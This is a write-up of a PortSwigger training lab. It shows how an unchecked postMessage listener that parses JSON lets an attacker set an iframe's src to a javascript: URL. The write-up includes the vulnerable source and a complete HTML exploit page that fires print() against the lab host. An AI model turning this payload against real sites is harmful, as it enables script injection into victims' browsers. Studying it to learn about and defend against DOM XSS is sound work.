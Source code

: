 # DOM XSS using web messages and `JSON.parse` | Jan 14, 2023

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-a-javascript-url), you'll learn: DOM XSS using web messages and `JSON.parse`! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★☆☆☆☆☆☆☆☆☆

## Background

This lab uses web messaging and parses the message as JSON. To solve the lab, construct an HTML page on the exploit server that exploits this vulnerability and calls the `print()` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114173227.png)

**View source page:**
```html
<script>
    window.addEventListener('message', function(e) {
        var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
        document.body.appendChild(iframe);
        try {
            d = JSON.parse(e.data);
        } catch(e) {
            return;
        }
        switch(d.type) {
            case "page-load":
                ACMEplayer.element.scrollIntoView();
                break;
            case "load-channel":
                ACMEplayer.element.src = d.url;
                break;
            case "player-height-changed":
                ACMEplayer.element.style.width = d.width + "px";
                ACMEplayer.element.style.height = d.height + "px";
                break;
        }
    }, false);
</script>
```

In this web message, it has an event listener that listening for a web message. Then, it'll **parse the message as JSON data via `JSON.parse`**. Moreover, **the event listener doesn't verify the origin of incoming messages correctly.**

Also, in the `switch` statement, it has a `case` called `load-channel`. **What that case do is to change an `<iframe>` element `src` attribute**. Hence, this is the sink (Dangerous function). 

Armed with above information, we can host a malicious HTML file that contains `<iframe>` element and use the `postMessage()` method to pass web message data to the vulnerable event listener, which then sends the payload to a sink on the parent page:

```js
postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}",'*')
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175422.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175428.png)

**Let's create a HTML payload to exploit that DOM-based XSS!**
```html
<html>
    <head>
        <title>DOM XSS using web messages and JSON.parse</title>
    </head>
    <body>
        <iframe src="https://0a94005203448cd4c073c3ae006d003c.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*");'></iframe>
    </body>
</html>
```

Then host it on the exploit server, and deliver it to victim:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175905.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/DOM-Based-Vulnerabilities/DOM-3/images/Pasted%20image%2020230114175910.png)

# What we've learned:

1. DOM XSS using web messages and `JSON.parse`